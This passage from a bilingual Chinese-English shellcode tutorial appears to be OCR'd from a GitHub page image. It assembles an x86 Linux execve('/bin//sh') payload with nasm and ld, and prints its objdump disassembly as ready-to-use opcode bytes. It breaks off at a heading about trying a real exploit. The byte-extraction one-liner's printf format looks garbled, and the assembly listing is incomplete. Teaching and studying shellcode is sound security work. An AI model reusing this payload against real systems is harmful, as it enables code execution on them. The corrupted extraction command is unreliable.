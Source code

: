 ```assembly
mov     ecx, esp 
mov     al,11
int     0x80
```

Use `nasm` to compile it.
我们可以使用nasm去编译这段汇编代码：
`nasm -f elf shellcode.asm`

编译得到 shellcode.o 这个目标文件，然后链接：       Linking the object file which you compiled in the previous step
`ld -o shellcode shellcode.o`

如果正确的话你会得到一个ELF文件：         If every thing right you will get a ELF file like this:
```
file shellcode
shellcode: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
你可以测试一下它能否正常工作


现在你可能需要一个shell code bytes，What这是什么玩意？其实说的就是那些与汇编指令一一对应的机器码。
Now you would want to obtain the shell code bytes. What are they? They are
machine code that corresponds to those instructions.
如何得到机器码？可以试试objdump这款工具。
How can we get those? `objdump` will help.
`objdump -d shellcode.o`
You will get something like.
你将得到像下面这种东西：
```
shellcode.o:     file format elf32-i386
Disassembly of section .text:

00000000 <.text>:
   0:    31 c0                    xor    %eax,%eax
   2:    50                       push   %eax
   3:    68 2f 2f 73 68           push   $0x68732f2f
   8:    68 2f 62 69 6e           push   $0x6e69622f
   d:    89 e3                    mov    %esp,%ebx
   f:    50                       push   %eax
  10:    89 e2                    mov    %esp,%edx
  12:    53                       push   %ebx
  13:    89 e1                    mov    %esp,%ecx
  15:    b0 0b                    mov    $0xb,%al
  17:    cd 80                    int    $0x80
```

你可以使用下面的方法从中extract出shell code（得到十六进制格式的以C风格格式化的shellcode：）：
You can use the following shell code to get that extracted. :cool:
``for i in `objdump -d shellcode.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do printf \\%c%b x $i ; done``




尝试做一个真实的利用:
---

